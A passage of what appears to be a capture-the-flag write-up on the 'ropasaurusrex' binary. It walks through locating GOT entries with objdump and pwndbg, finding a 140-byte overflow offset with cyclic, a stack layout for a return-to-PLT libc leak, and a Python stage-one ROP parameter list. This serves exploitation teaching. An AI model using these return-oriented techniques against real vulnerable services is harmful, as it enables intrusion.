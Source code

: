 ```shell
objdump -d -M intel ./ropasaurusrex | grep write
```

Note that founding addresses of `GOT` is even easier in gdb:

```assembly
pwndbg> got

GOT protection: No RELRO | GOT functions: 4

[0x8049610] __gmon_start__ -> 0x8048302 (__gmon_start__@plt+6) <— push   0 /* 'h' */
[0x8049614] write@GLIBC_2.0 -> 0x8048312 (write@plt+6) <— push   8
[0x8049618] __libc_start_main@GLIBC_2.0 -> 0xf7df4e30 (__libc_start_main) <— call   0xf7f132c9
[0x804961c] read@GLIBC_2.0 -> 0x8048332 (read@plt+6) <— push   0x18
pwndbg>
```

### `cyclic`

To check how deep are we in the stack we can use `pwn cyclic -n 4 200 | ./ropasaurusrex` which generates a pattern of 4 bytes, 200 chars long (since we are in a 32 bit environment, otherwise we would need a 8 bytes pattern). Then we check with gdb what section of the pattern gets into the instruction pointer (for e.g. gdb would print `Invalid address at 0x6261616b`), and then we can actually see how long must be our padding, by running:

```sh
$ cyclic -n 4 -l 0x6261616b
140
```

### leaking `libc`

Since the binary is x86, we need to put call arguments on the stack. We need the following stack layout:

| Before / After                                                                                                                                                                                        |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ...                                                                                                                                                                                                   |
| **sEBP** / junk                                                                                                                                                                                       |
| **sEIP** / `write` in `PLT` (**what we want to execute**)                                                                                                                                             |
| Frame of caller / cleaner gadget (cleans up the next three cells and puts a `ret` in order to jump at the address that follows the three stack cells just cleared, which is the address of the `main` |
| Frame of caller / arg #1 (1st argument of what we want to execute, the `fd` of the `write` target)                                                                                                    |
| Frame of caller / arg #2 (2nd argument of what we want to execute, what we want to write to `stdout`)                                                                                                 |
| Frame of caller / arg #3 (3rd argument of what we want to execute, how much to write)                                                                                                                 |
| Frame of caller / `main` address (**return address** after that the gadget cleans the stack)                                                                                                          |
| ...                                                                                                                                                                                                   |

```python
# STAGE 1
# writing to stdout the address of write, and returning
# a gadget that cleans write's arguments off the stack in order
# to call again the main.
params = [
    e.plt['write'],
    cleaner,
    1,
    e.got['write'],
    4,
    main_addr	# return address, we'll make the binary start again
]							# from the beginning of the main to complete the exploit
```